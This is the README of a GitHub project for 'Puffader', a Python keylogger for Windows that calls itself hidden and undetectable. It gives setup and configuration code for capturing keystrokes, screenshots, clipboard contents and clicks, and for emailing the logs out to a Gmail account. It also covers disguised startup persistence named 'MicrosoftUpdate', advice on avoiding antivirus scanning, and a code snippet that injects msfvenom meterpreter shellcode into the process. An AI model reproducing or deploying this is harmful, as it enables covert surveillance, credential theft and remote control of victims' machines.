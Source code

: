 [![Build status](https://ci.appveyor.com/api/projects/status/5tc6085mmmw6rym8?svg=true)](https://ci.appveyor.com/project/xp4xbox/puffader)
# Puffader
Puffader is an opensource, hidden and undetectable keylogger for windows written in Python 2.7 which can also capture screenshots, mouse window clicks and clipboard data.

## Installation
Puffader Requires:
* [Python 2.7](https://www.python.org/downloads)
* [Pyhook](https://sourceforge.net/projects/pyhook/files/pyhook/1.5.1/)
* [Pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/)
* [PyScreeze](https://pypi.org/project/PyScreeze/)
* [Py2Exe](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/)

1. Download the repository using github or git eg.```git clone https://github.com/xp4xbox/Puffader```
2. Install the modules by running `python -m pip install requirements.txt`

Please refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Installing-Prerequisites) for more information on installing prerequisites.

## Features
Currently Puffader has several features such as:
* Ability to send logs to any gmail account.
* Ability to capture screenshots
* Ability to store logs locally
* Ability to configure log size before sending
* Ability to send logs at timed intervals
* Ability to stop the program via ctrl-rshift-lshift-h.
* Ability to log special characters.
* Ability to embed an undetectable meterpreter shell
* Ability to capture window mouse clicks
* Ability to run at startup
* Ability to capture clipboard data
* Ability to melt file on execution
* Checking for multiple instances
* And more...

## Quick Usage

1. Open file with idle or any other editor.
2. Modifiy lines `18-37` for your personal preference: eg.
```
strEmailAc = "email@gmail.com"
strEmailPass = "pass"

intCharPerSend = 1000

blnUseTime = "False"
intTimePerSend = 120

blnStoreLocal = "True"
strLogFile = "c:/temp/test.txt"

blnScrShot = "True"
strScrDir = "c:/temp"
intScrTime = 120

blnLogClick = "True"
blnAddToStartup = "False"

blnLogClipboard = "False"
blnMelt = "False"
```
> NOTE: For `strScrDir`, be sure to leave out the last `/`.

#### You can only choose one method for storing/sending logs, default is by email.

#### If you plan to send messages via email, be sure to [allow access for less secure apps](https://myaccount.google.com/lesssecureapps) in your gmail account.

#### If you ever set the program to run at startup and want to remove it, open regedit and navigate to `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` and delete the value `MicrosoftUpdate`.

For more information please refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Usage).

### Compiling Program To .exe

> NOTE: Never scan compiled .exe's with Virus Total, NoDistribute or any other online public scan sites.

#### Py2Exe
1. **(Optional)** Add this code to Puffader.py `sys.stderr = None` after the import statements to ensure no errors will show.
3. Make sure the program is called Puffader.py in your python folder as well.
4. Run `python setup.py`
5. You should see the .exe in the dist folder.

Or refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Compiling-To-.exe) for more information.

## Adding Meterpreter Plugin

1. Generate raw shellcode using msfvenom (eg. xr8\x02...).
2. Encode the shellcode to base64 by using [this](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/base64encoder.py).
3. Move the [code_injector module](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/code_injector.py) to same dir as the program.
4. Paste in this code after the function to prevent multiple instances as [here](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/Puffader_Code_Addition.py). Setting b64shellcode to be your encrypted shellcode.
```
import code_injector, base64
# base64 shellcode
b64shellcode = ""
shellcode = base64.b64decode(b64shellcode)  # decrypt shellcode
pid = os.getpid()  # get current pid

code_injector.InjectShellCode(pid, shellcode)  # inject the shellcode into the program
```
5. Build program with Py2Exe.

> Check my other project [PyEvade](https://github.com/xp4xbox/PyEvade) for more info on how this works.

## Help

If you need any help at all, feel free to post a "help" issue.

## Contributing

Contributing is encouraged and will help make a better program. Please refer to [this](https://gist.github.com/MarcDiethelm/7303312) before contributing.

## Disclaimer

This program must be used for legal purposes! I am not responsible for anything you do with it.

## License
[License](https://github.com/xp4xbox/Puffader/blob/master/LICENSE)
